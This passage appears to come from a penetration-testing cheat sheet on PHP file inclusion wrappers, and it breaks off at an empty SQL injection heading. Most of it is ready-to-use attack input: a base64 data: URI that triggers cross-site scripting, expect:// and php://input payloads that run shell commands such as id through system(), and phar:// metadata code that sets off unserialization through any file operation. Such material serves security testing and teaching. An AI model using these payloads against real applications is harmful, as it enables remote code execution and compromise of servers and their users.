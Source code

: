 Fun fact: you can trigger an XSS and bypass the Chrome Auditor with: `http://example.com/index.php?page=data:application/x-httpd-php;base64,PHN2ZyBvbmxvYWQ9YWxlcnQoMSk+`

### Wrapper expect://

```
http://example.com/index.php?page=expect://id
http://example.com/index.php?page=expect://ls
```

### Wrapper input://

Specify your payload in the POST parameters

```
http://example.com/index.php?page=php://input
POST DATA: <?php system('id'); ?>
```

### Wrapper phar://

Create a phar file with a serialized object in its meta-data.

```
// create new Phar
$phar = new Phar('test.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub('<?php __HALT_COMPILER(); ? >');

// add object of any class as meta data
class AnyClass {}
$object = new AnyClass;
$object->data = 'rips';
$phar->setMetadata($object);
$phar->stopBuffering();
```

If a file operation is now performed on our existing Phar file via the %%phar://%% wrapper, then its serialized meta data is unserialized. If this application has a class named AnyClass and it has the magic method __destruct() or __wakeup() defined, then those methods are automatically invoked

```
class AnyClass {
    function __destruct() {
        echo $this->data;
    }
}
// output: rips
include('phar://test.phar');
```

NOTE: The unserialize is triggered for the `%%phar://%%` wrapper in any file operation, file_exists and many more.

## SQL Injection
